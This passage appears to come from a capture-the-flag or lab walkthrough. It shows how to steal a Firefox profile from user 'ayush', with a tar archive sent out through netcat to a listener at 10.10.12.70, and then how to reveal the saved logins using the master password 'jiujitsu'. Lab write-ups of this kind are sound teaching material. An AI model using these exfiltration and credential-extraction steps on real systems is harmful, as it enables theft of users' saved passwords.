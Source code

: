    ```console
     -rw-r--r--  1 ayush ayush  104 Sep 29  2018  profiles.ini

   $ cat profiles.ini

     [General]
     StartWithLastProfile=1
     
     [Profile0]
     Name=default
     IsRelative=1
     Path=bzo7sjt1.default
     Default=1

   ```
   __NOTE(S)__:
   - `profiles.ini` contains firefox profile
     - The `Path` is the directory containing relevant files to the profiles
     - Profiles may contain __saved logins__ by the user
>
2. Export `bzo7sjt1.default`:
   - Local terminal:
     ```console
     $ nc -lvp 1234 > profile.tar
     ```
   - `ayush` terminal:
     ```console
     $ tar -cf /tmp/something ~/.mozilla/firefox/bzo7sjt1.default

     $ cat /tmp/something | nc 10.10.12.70 1234
     ```

3. Extract `profile.tar` and start a firefox isntance
   ```console
   $ mkdir bzo7sjt1.default
   $ cd bzo7sjt1.default
   $ tar -xvf ../profile.tar
   $ firefox --profile ./
   ```

4. Find __saved logins__:
   1. Go to `Options`
   2. Go to `Privacy & Security`
   3. Look for `Saved Logins...`
   4. Enter the __master password__ ("`jiujitsu`")
   5. Click `Show Passwords`
   6. Enter the __master password__ ("`jiujitsu`") again
